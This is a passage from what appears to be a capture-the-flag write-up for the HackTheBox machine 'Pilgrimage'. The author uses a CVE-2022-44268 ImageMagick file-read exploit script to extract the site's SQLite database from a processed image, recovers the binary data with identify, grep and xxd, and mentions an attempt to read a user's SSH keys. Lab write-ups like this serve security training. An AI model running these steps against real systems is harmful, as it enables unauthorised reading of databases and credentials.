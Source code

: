 I’ll try to grab SSH keys for emily, but fail. There’s no other user where it seems reasonable that they might have a `.ssh` directory based on their home directories.

#### Database

The source code shows that the site is running off a SQLite database. For example, in `login.php`:

```

  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));

```

I’ll try to grab that file:

```

oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /var/db/pilgrimage --output pngout.png
oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdbb27cce4.png
Traceback (most recent call last):
  File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
    main()
  File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
    decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xaf in position 27: invalid start byte

```

That makes sense, as it’s binary data and the script seems to be expecting only ASCII text.

I could manually get the data out of the file. I’ll download the file from the site, and with a little playing around with `grep`, I can isolate just the lines with the hex data, and then use `xxd` to convert it back to binary:

```

oxdf@hacky$ identify -verbose 655cdbb27cce4.png | grep -Pv "^( |Image)"  | xxd -r -p > pilgrimage.sqlite
oxdf@hacky$ file pilgrimage.sqlite
pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 943, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 943

```

### Database Enumeration

I’ll open the database with `sqlite3`:

```

oxdf@hacky$ sqlite3 pilgrimage.sqlite 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite>

```
